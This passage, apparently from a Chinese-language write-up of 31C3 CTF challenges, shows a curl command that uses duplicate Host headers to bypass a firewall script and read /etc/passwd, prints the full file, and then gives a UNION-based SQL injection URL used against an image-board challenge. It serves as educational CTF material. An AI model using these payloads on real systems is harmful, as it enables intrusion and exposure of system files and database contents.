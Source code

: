 
这样我们就可以构造两个Host来绕过fw.rb了。

```
root@kali:~# curl http://works.90.31c3ctf.aachen.ccc.de/passwd -H 'Host: /etc/' -H 'Host:
works.90.31c3ctf.aachen.ccc.de'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:100:103::/home/syslog:/bin/false
messagebus:x:101:105::/var/run/dbus:/bin/false
uuidd:x:102:107::/run/uuidd:/bin/false
landscape:x:103:110::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user,,,:/home/user:/bin/bash
flag:x:1001:1001:31C3_b45fa9e4d5969e3c524bdcde15f84125:/home/flag:

```

0x04 5CHAN
==========

* * *

```
5CHAN? Never heard of this image board, but they have exactly what we need. The picture we’re looking
for is not for public, so can you get it?

http://188.40.18.89/

```

首先访问一下http://188.40.18.89/robots.txt，会发现一个backup的目录，下载下来得到源码。

看下代码很容易发现一个sql注入漏洞，构造如下的语句，就可以的到Flag

```
http://188.40.18.89/?page=pic&id=9 union select * from pictures  where id=9 -- a

```
